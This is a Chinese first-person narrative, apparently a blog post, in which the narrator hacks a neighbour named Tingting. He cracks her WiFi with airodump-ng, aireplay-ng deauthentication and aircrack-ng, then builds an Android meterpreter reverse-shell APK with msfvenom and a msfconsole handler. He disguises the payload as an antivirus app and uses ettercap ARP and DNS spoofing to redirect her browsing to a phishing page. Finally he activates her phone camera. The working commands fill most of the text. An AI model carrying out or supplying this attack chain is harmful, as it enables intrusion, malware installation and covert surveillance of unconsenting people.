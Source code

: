  打开电脑，连着自己的手机热点开启Kali Linux（一个高级渗透测试和安全审计Linux发行版）。



我先启动自己的网卡随后输入命令开始探测附近的WiFi：
root@kali:~# airodump-ng wlan0mon
图片

BSSID是指的MAC地址，PWR是信号强度，绝对值越小信号越好，,CH是信道（所处在的信道），我紧挨着婷婷的房子，信号最好的应该就是她的WiFi，我记录下来后输入命令：

airdump-ng -w bb -c 6 --bssid 2c:b2:12:5e:59:25 wlan0mon --ignore-negative-one
aireplay-ng --deaut 20 -a 2c:b2:12:5e:59:25 -c BC:D1:**:**:**:** wlan0mon --ignore-negative-one–deaut后面的20代表攻击20次，-a后是路由器mac地址，-c后是被攻击机器mac地址。这个是向连接路由器的这个被攻击机发送大量数据导致被攻击机wifi断开，等待客户机重连wifi截获握手包

准备好字典后和生成的握手包放到同一个目录下后再输入命令：
aircrack-ng -w zidian.txt bb-01.cap

随后我就开始了漫长的等待...在我快睡着之际终于破解成功了，揉了揉眼睛发现密码是88888888，差点心态崩了，当时以为不会用这么简单的密码，就放到了字典的后面。

怀着郁闷的心情链接上去后，接着在Kali Linux的终端上输入命令：
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.100(本地IP) LPORT=9999(本地端口) R > /root/bingdu.apk(输出目录)
msfconsole                //启动msfconsole
use exploit/multi/handler //加载模块
set payload android/meterpreter/reverse_tcp //选择Payload
set lhost 192.168.0.100  //这里的地址设置成我们刚才生成木马的IP地址
set lport 9999           //这里的端口设置成刚才我们生成木马所监听的端口
exploit                  //开始执行漏洞，开始监听,等待手机上线

随后将生成的病毒文件进行免杀然后绑定到真正的数字卫士上，放到我写好的钓鱼页面，页面的意思是你的手机被入侵要下载数字卫士杀毒：

图片

随后在/etc/ettercap/etter.dns文件里修改为攻击机的地址，最后输入/etc/init.d/apache2 start来启动Apache。

我们在终端输入ettercap -G来打开图形界面，扫描出所有连接局域网的设备，把要攻击的主机添加标记1，网关添加标记。

图片

选择Arp中间人攻击，随后双击dns_spoof

图片

最后开始攻击：

图片


这样不管婷婷访问什么网页都会提示她手机中病毒了，我就不信她不下载链接。

过了一两个小时，我这边收到了有主机下载软件被感染了，不禁面色一喜，婷婷上钩了， 我随后输入命令开启婷婷的手机摄像头。
